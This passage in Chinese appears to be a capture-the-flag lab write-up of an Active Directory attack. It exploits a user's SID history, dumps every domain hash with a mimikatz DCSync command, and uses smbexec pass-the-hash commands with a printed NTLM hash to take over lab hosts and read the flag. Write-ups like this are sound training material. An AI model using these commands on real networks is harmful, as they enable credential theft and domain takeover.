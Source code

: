 我可以利用这个工具得知我们要攻击的具体路径和大题思路

我可以看到，在 172.22.6.25 这个用户机，运行登录的用户有三个

而 yuxuan 用户滥用了 SID 历史功能 (SIDHistory 是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的 SID 作为该对象的 objectSid，在之前域中的 SID 会添加到该对象的 sIDHistory 属性中，此时该对象将保留在原来域的 SID 对应的访问权限)

所以我们切换到 yuxuan 用户，利用这个滥用的 SID 直接攻击 DC 机因为我们保留域管理员的访问权限了，所以直接 dump 哈希

```bash
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

拿到管理员的哈希

[![](assets/1706513339-67963297595b99e0f1abd391e89f0c99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128232230-0db52eec-bdf1-1.png)

我拿到管理员的哈希，就相当于拿下了域控，我们哈希传递一些就可以拿到 flag

```bash
proxychains python3 smbexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 administrator@172.22.6.12
```

```bash
type C:\Users\Administrator\flag\flag*
```

[![](assets/1706513339-3dc43bd3084652e01fcc9d286eb9f195.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128232235-101e4efc-bdf1-1.png)

```bash
proxychains python3 smbexec.py XIAORANG/administrator@172.22.6.25  -hashes :04d93ffd6f5f6e4490e0de23f240a5e9
```
